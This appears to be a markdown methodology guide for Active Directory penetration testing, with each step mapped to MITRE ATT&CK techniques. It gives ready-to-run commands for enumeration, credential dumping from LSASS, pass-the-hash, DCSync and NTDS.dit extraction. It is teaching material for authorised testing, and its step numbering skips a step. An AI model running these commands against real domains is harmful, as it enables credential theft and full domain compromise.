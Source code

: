 # **Basic Active Directory (AD) Penetration Testing Methodology**

## **Scenario:**
You have only the **IP address of the Domain Controller (DC)** and must conduct a full Active Directory pentest. This guide includes **multiple alternative techniques for each step**, ensuring redundancy. Each method is mapped to **MITRE ATT&CK Techniques (TTPs)** where applicable.

The overview document provides a high level process of testing but is in no means recommended for every scenario, tools change, patches release. understand how the technologies work, use tools where needed but dont rely on them, better yet, make your own make them better. See listing document and pair the methods in the listings with sources such as Atomic, hacktricks, and PTES for more information.

---

# **🛠 Step 1: Information Gathering (Recon) (T1595, T1592, T1590)**
**Objective:** Identify the domain name, live hosts, users, and exposed services.

### **1.1 Identify Live Hosts & Domain Name**
- **Primary Method: DNS Reverse Lookup (T1590.005)**
  ```bash
  nslookup <DC_IP>
  ```
- **Alternative Methods:**
  - **Find domain via NetBIOS (if 137/139 open) (T1590.005):**
    ```bash
    nmblookup -A <DC_IP>
    ```
  - **Identify DC using SMB (if 445 open) (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> --shares
    ```
  - **Check SSL certificates (if 443 open) (T1590.004):**
    ```bash
    openssl s_client -connect <DC_IP>:443 | grep "CN="
    ```
  - **Discover live hosts via ICMP scan (T1595.002):**
    ```bash
    fping -a -g <IP_RANGE>
    ```
  - **Enumerate domain using nbtscan (T1590.005):**
    ```bash
    nbtscan -r <IP_RANGE>
    ```
  - **Enumerate via CrackMapExec (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> -u '' -p '' --shares
    ```

---

# **📡 Step 2: Enumerating Active Directory (No Authentication) (T1590, T1592.002, T1592.004)**
**Objective:** Extract usernames, shares, and AD structure **without credentials**.

### **2.1 Enumerate Users & Domain Info**
- **Primary Method: LDAP Anonymous Bind (T1592.002)**
  ```bash
  ldapsearch -x -H ldap://<DC_IP> -s base namingContexts
  ```
- **Alternative Methods:**
  - **Extract domain name from SMB (if 445 open) (T1592.002):**
    ```bash
    smbclient -L //<DC_IP> -N
    ```
  - **Use Kerberos brute-force with common names (T1595.002):**
    ```bash
    kerbrute userenum -d corp.local --dc <DC_IP> users.txt
    ```
  - **Check printer services (for usernames in print jobs) (T1592.002):**
    ```bash
    enum4linux -a <DC_IP>
    ```
  - **Enumerate domain SID (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomusers"
    ```
  - **Using BloodHound with SharpHound (T1592.002):**
    ```powershell
    SharpHound.exe -c All
    ```

### **2.2 Enumerate Shares & GPOs**
- **Primary Method: SMB Enumeration (T1590.002)**
  ```bash
  crackmapexec smb <DC_IP> -u '' -p '' --shares
  ```
- **Alternative Methods:**
  - **Check for readable GPO files (group policies may contain creds) (T1592.004):**
    ```bash
    smbclient //DC_IP/SYSVOL -N
    ```
  - **Search for passwords in SYSVOL (T1552.006):**
    ```bash
    find . -name "*.xml" | xargs grep -i password
    ```
  - **List accessible shares manually via SMB (T1590.002):**
    ```bash
    smbmap -H <DC_IP>
    ```
  - **Enumerate domain trust relationships via RPC (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomgroups"
    ```
  - **Using BloodHound for Trust Enumeration (T1592.002):**
    ```powershell
    Invoke-BloodHound -CollectionMethod All -Verbose -OutputDirectory C:\temp
    ```

---

# **🔑 Step 3: Gaining Initial Access (T1078.002, T1557.002, T1110.003)**
**Objective:** Obtain valid credentials for a **low-privileged user**.

### **3.1 Credential Dumping via Mimikatz (T1003.001)**
- **Primary Method (Windows Elevated CMD):**
  ```powershell
  mimikatz
  sekurlsa::logonpasswords
  ```
- **Alternative Methods:**
  - **Dump credentials from LSASS using Task Manager:**
    ```powershell
    procdump -accepteula -ma lsass.exe lsass.dmp
    ```
  - **Extracting NTLM Hashes using Impacket:**
    ```bash
    secretsdump.py -just-dc corp.local/user:password@<DC_IP>
    ```
  - **Using Rubeus for Ticket Extraction (T1558.003):**
    ```powershell
    Rubeus.exe dump /format:kirbi
    ```
  
---

# **📡 Step 5: Lateral Movement (T1550.001, T1558.002, T1021.002)**
**Objective:** Expand access to **other machines in the domain**.

### **5.1 Over-Pass-the-Hash (T1550.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  sekurlsa::pth /user:user /domain:corp.local /ntlm:<HASH>
  ```
- **Alternative Methods:**
  - **Using CrackMapExec for Lateral Movement:**
    ```bash
    crackmapexec smb <DC_IP> -u user -H <NTLM_HASH>
    ```
  - **Using Evil-WinRM:**
    ```bash
    evil-winrm -i <DC_IP> -u user -H <NTLM_HASH>
    ```
  
---

# **🏆 Step 6: Domain Controller Compromise (T1003.002, T1555.003)**
**Objective:** Gain **full control over the AD environment**.

### **6.1 DCSync Attack (T1003.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  lsadump::dcsync /domain:corp.local /user:Administrator
  ```
- **Alternative Methods:**
  - **Extracting NTDS.dit via Ntdsutil:**
    ```powershell
    ntdsutil "ac i ntds" "ifm" "create full c:\ntds" q q
    ```



---
